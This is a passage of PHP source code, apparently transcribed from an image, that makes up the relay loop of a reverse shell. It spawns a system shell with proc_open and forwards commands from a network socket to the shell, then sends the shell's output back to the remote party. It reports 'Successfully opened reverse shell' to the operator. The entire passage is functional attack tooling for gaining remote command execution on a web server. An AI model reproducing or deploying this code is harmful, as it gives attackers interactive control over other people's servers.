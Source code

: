 ```php
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
```